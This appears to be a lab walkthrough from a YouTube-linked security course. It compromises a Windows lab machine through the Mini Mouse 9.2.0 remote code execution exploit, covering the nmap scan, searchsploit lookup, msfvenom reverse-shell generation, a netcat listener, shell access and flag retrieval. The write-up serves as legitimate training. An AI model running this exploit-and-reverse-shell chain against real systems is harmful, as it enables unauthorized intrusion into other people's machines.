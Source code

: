 # 0. Sources

|||
|---|---|
|[YouTube](https://www.youtube.com/watch?v=MD5GIbatPg8)|[Download](https://drive.google.com/file/d/1K5_YA76DVtICHst2FlLVjq68dgNkMgRX/view)|

# 1. nmap scan

```console
┌──(kali㉿kali)-[~]
└─$ nmap -p- -A 10.0.88.33
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-27 10:40 +08
Nmap scan report for 10.0.88.33
Host is up (0.017s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows 10 Pro 14393 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=mousekatoo
| Not valid before: 2022-11-26T02:39:44
|_Not valid after:  2023-05-28T02:39:44
|_ssl-date: 2022-11-27T02:42:53+00:00; 0s from scanner time.
| rdp-ntlm-info:
|   Target_Name: MOUSEKATOO
|   NetBIOS_Domain_Name: MOUSEKATOO
|   NetBIOS_Computer_Name: MOUSEKATOO
|   DNS_Domain_Name: mousekatoo
|   DNS_Computer_Name: mousekatoo
|   Product_Version: 10.0.14393
|_  System_Time: 2022-11-27T02:42:39+00:00
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8039/tcp  open  unknown
| fingerprint-strings:
|   FourOhFourRequest, GetRequest, HTTPOptions, RTSPRequest, SIPOptions:
|     HTTP/1.1 404 OK
|     Server: bruce_wy/1.0.0
|     Access-Control-Allow-Methods: POST,GET,TRACE,OPTIONS
|     Access-Control-Allow-Headers: Content-Type,Origin,Accept
|     Access-Control-Allow-Origin: *
|     Access-Control-Allow-Credentials: true
|     P3P: CP=CAO PSA OUR
|     Content-Type: text/html
|     Content-Range: bytes 0-0/-1
|_    Content-Length : 4294967295
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
⋮
Host script results:
| smb2-time:
|   date: 2022-11-27T02:42:42
|_  start_date: 2022-11-27T02:39:44
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   311:
|_    Message signing enabled but not required
|_clock-skew: mean: 1h36m00s, deviation: 3h34m41s, median: 0s
| smb-os-discovery:
|   OS: Windows 10 Pro 14393 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: mousekatoo
|   NetBIOS computer name: MOUSEKATOO\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-11-26T18:42:43-08:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 145.22 seconds
```

# 2. Checking for exploits

Port `8039` returned HTTP data

Searching for the `Server: bruce_wy/1.0.0` information on google leads us to a [Mini Mouse 9.2.0 Path Traversal exploit](https://www.exploit-db.com/exploits/49744)

Path traversal isn't exactly useful, let's search if there are more `mini mouse` exploits

```console
┌──(kali㉿kali)-[~]
└─$ searchsploit mini mouse
-------------------------------------------- ---------------------------------
 Exploit Title                              |  Path
-------------------------------------------- ---------------------------------
Mini Mouse 9.2.0 - Path Traversal           | windows/webapps/49744.txt
Mini Mouse 9.2.0 - Remote Code Execution    | windows/webapps/49743.py
Mini Mouse 9.3.0 - Local File inclusion     | ios/webapps/49747.txt
-------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The RCE exploit looks interesting, let's try that

# 3. Targeting the Mini Mouse service

Aanalyzing the exploit code shows that it executes a selected payload:

```console
┌──(kali㉿kali)-[~]
└─$ searchsploit -m 49743
  Exploit: Mini Mouse 9.2.0 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49743
     Path: /usr/share/exploitdb/exploits/windows/webapps/49743.py
File Type: Python script, ASCII text executable

Copied to: /home/kali/49743.py

┌──(kali㉿kali)-[~]
└─$ cat 49743.py
⋮
ip = input("target's ip:  ")
lhost = input("local http server ip: ")
name = input("payload file name: ")
url = "http://{}:8039/op=command".format(ip)
⋮
```

# 4. Getting a shell

Generate reverse shell executable and setup web server endpoint on Kali:

```console
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe

┌──(kali㉿kali)-[~]
└─$ sudo python3 -m http.server 80 &> /dev/null &
[1] 2111
```

Open another console window on Kali to listen for connections:

```console
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
```

Run the exploit and get our shell:

```console
┌──(kali㉿kali)-[~]
└─$ python3 49743.py
Traceback (most recent call last):
  File "/home/kali/49743.py", line 12, in <module>
    import jsonargparse
ModuleNotFoundError: No module named 'jsonargparse'

┌──(kali㉿kali)-[~]
└─$ pip install jsonargparse
Defaulting to user installation because normal site-packages is not writeable
Collecting jsonargparse
  Downloading jsonargparse-4.17.0-py3-none-any.whl (165 kB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 165.3/165.3 kB 6.3 MB/s eta 0:00:00
Requirement already satisfied: PyYAML>=3.13 in /usr/lib/python3/dist-packages (from jsonargparse) (5.4.1)
Installing collected packages: jsonargparse
Successfully installed jsonargparse-4.17.0

┌──(kali㉿kali)-[~]
└─$ python3 49743.py
target's ip:  10.0.88.33
local http server ip: kali.vx
payload file name: reverse.exe
[+] Retrieving payload
200
[+] got shell!
```

Verify that the reverse shell has hooked on from the listener console

```cmd
connect to [192.168.17.10] from (UNKNOWN) [10.0.88.51] 49786
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Mini Mouse>whoami
whoami
mousekatoo\mickey
```

Excellent, we now have shell on the target

# 5. Getting the proof

Since we know that the proof is a file on the user's desktop, let's get straight to it

```cmd
C:\Program Files (x86)\Mini Mouse>cd %USERPROFILE%
cd %USERPROFILE%

C:\Users\Mickey>dir /s *flag.txt*
dir /s *flag.txt*
 Volume in drive C has no label.
 Volume Serial Number is DA18-B95C

 Directory of C:\Users\Mickey\AppData\Roaming\Microsoft\Windows\Recent

09/14/2021  10:46 PM               632 flag.txt.lnk
               1 File(s)            632 bytes

 Directory of C:\Users\Mickey\Desktop

09/14/2021  10:48 PM                73 flag.txt.txt
               1 File(s)             73 bytes

     Total Files Listed:
               2 File(s)            705 bytes
               0 Dir(s)  42,366,476,288 bytes free

C:\Users\Mickey>type Desktop\flag.txt.txt
type Desktop\flag.txt.txt
the more you hack, the better you become

- i.t security labs (youtube)
```
